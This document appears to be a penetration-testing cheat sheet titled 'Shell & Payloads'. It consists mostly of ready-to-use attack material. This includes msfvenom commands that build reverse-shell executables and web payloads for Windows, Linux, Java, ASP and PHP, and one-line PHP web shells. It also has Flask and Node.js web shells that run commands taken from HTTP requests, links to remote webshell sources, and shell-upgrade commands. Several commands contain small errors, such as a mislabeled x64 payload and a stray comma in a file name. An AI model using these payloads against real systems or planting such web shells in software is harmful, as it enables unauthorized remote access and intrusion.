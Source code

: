 # Shell & Payloads

## Introduction

## Table of Contents

- [Shell \& Payloads](#shell--payloads)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [Payload Structure - msfvenom](#payload-structure---msfvenom)
  - [Non-Meterpreter Binaries](#non-meterpreter-binaries)
    - [Windows](#windows)
      - [x86 staged - msfvenom (Non-Meterpreter)](#x86-staged---msfvenom-non-meterpreter)
      - [x64 staged - msfvenom (Non-Meterpreter)](#x64-staged---msfvenom-non-meterpreter)
      - [x86 stageless - msfvenom (Non-Meterpreter)](#x86-stageless---msfvenom-non-meterpreter)
      - [x64 stageless - msfvenom (Non-Meterpreter)](#x64-stageless---msfvenom-non-meterpreter)
    - [Linux](#linux)
      - [x86 staged - msfvenom (Non-Meterpreter)](#x86-staged---msfvenom-non-meterpreter-1)
      - [x64 staged - msfvenom (Non-Meterpreter)](#x64-staged---msfvenom-non-meterpreter-1)
      - [x86 stageless - msfvenom (Non-Meterpreter)](#x86-stageless---msfvenom-non-meterpreter-1)
      - [x64 stageless - msfvenom (Non-Meterpreter)](#x64-stageless---msfvenom-non-meterpreter-1)
  - [Web Payloads](#web-payloads)
    - [Java WAR - msfvenom (Non-Meterpreter)](#java-war---msfvenom-non-meterpreter)
    - [ASP - msfvenom (Non-Meterpreter)](#asp---msfvenom-non-meterpreter)
    - [ASPX - msfvenom (Non-Meterpreter)](#aspx---msfvenom-non-meterpreter)
    - [JSP - msfvenom (Non-Meterpreter)](#jsp---msfvenom-non-meterpreter)
    - [WAR - msfvenom (Non-Meterpreter)](#war---msfvenom-non-meterpreter)
    - [PHP - msfvenom (Non-Meterpreter) - Reverse Shell](#php---msfvenom-non-meterpreter---reverse-shell)
  - [Web Shells](#web-shells)
    - [PHP](#php)
    - [JSP](#jsp)
    - [ASP](#asp)
    - [ASPX](#aspx)
    - [Webshell Infecting views.py - Python (Flask)](#webshell-infecting-viewspy---python-flask)
    - [nodejs](#nodejs)
    - [Perl](#perl)
  - [Spawn tty via Python](#spawn-tty-via-python)
  - [Spawn an upgraded shell](#spawn-an-upgraded-shell)

## Payload Structure - msfvenom

A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.  
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)

## Non-Meterpreter Binaries

### Windows

#### x86 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x86.exe
```

#### x64 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x64.exe
```

#### x86 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > <name>-x86.exe
```

#### x64 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > ,name>-x64.exe
```

### Linux

#### x86 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### x64 staged - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### x86 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### x64 stageless - msfvenom (Non-Meterpreter)

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads

### Java WAR - msfvenom (Non-Meterpreter)

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX - msfvenom (Non-Meterpreter)

```sh
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell

```sh
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells

### PHP 

```php
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp  
OR
```sh

locate cmdjsp.jsp
```
### ASP

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp  
https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp  

OR
```sh
locate cmd-asp-5.1.asp
locate cmdasp.asp
```

### ASPX

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx  

OR
```
locate cmdasp.aspx
```

### Webshell Infecting views.py - Python (Flask)

```python
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs

``` node
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl

Find and edit
```
locate perl-reverse-shell.pl
```

## Spawn tty via Python

``` python
python -c 'import pty;pty.spawn("/bin/bash")';
```

## Spawn an upgraded shell

```
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null 
```
`ctrl + z`
```
stty raw -echo; fg 
```
